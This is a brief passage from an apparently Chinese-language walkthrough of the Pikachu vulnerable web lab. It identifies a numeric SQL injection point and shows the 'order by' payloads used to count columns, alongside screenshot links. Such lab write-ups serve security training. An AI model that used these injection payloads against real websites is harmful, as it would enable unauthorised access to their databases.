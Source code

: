 ![image-20230814212404812](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814212404812.png)

注入类型为数字型

**2、判断列数**

```sql
?id=1 order by 3--+
?id=1 order by 4--+      -- 报错
```

![image-20230814212530433](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814212530433.png)

